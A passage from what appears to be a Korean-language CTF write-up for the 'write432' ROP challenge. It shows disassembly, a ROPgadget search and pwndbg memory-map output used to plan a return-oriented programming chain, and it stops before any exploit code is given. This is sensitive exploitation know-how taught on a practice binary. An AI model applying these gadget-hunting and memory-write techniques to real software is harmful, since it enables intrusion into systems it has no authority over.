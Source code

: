 <br />
<br />

```yaml
$ objdump -d write432
...
0804852a <usefulFunction>:
 804852a:       55                      push   %ebp
 804852b:       89 e5                   mov    %esp,%ebp
 804852d:       83 ec 08                sub    $0x8,%esp
 8048530:       83 ec 0c                sub    $0xc,%esp
 8048533:       68 d0 85 04 08          push   $0x80485d0
 8048538:       e8 93 fe ff ff          call   80483d0 <print_file@plt>
 804853d:       83 c4 10                add    $0x10,%esp
 8048540:       90                      nop
 8048541:       c9                      leave
 8048542:       c3                      ret

08048543 <usefulGadgets>:
 8048543:       89 2f                   mov    %ebp,(%edi)
 8048545:       c3                      ret
 8048546:       66 90                   xchg   %ax,%ax
 8048548:       66 90                   xchg   %ax,%ax
 804854a:       66 90                   xchg   %ax,%ax
 804854c:       66 90                   xchg   %ax,%ax
 804854e:       66 90                   xchg   %ax,%ax
...
```
`objdump -d` 명령어로 `print_file@plt`의 주소인 `0x80483d0`와 유용한 가젯을 찾을 수 있습니다.

> [!NOTE]
> `usefulGadgets` = `mov [edi], ebp`
> 위 가젯은 `edi`가 가리키는 메모리 주소에 `ebp` 레지스터 값을 저장합니다.

<br />

```yaml
$ ROPgadget --binary write432 | grep "pop"
...
0x080485aa : pop edi ; pop ebp ; ret
...
```
위에서 구한 가젯을 사용하려면 `edi`, `ebp`에 값을 넣어줘야 합니다. 해당 명령어로 사용할 가젯을 찾습니다. 

```yaml
pwndbg> elf
...
0x8049ffc - 0x804a000  .got
0x804a000 - 0x804a018  .got.plt
0x804a018 - 0x804a020  .data
0x804a020 - 0x804a024  .bss

pwndbg> vmmap 0x804a018
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
     Start        End Perm     Size Offset File
 0x8049000  0x804a000 r--p     1000      0 /home/kali/pico/write432
►0x804a000  0x804b000 rw-p     1000   1000 /home/kali/pico/write432 +0x18
0xf7d78000 0xf7d9b000 r--p    23000      0 /usr/lib/i386-linux-gnu/libc.so.6
```
`edi`에 넣을 쓰기 권한이 있는 영역을 탐색합니다. `data`와 `bss` 영역을 사용할 수 있지만, 8바이트 크기가 할당된 `data`영역을 사용하겠습니다. 이제 위에서 얻은 정보를 가지고 공격 코드를 작성할 수 있습니다.
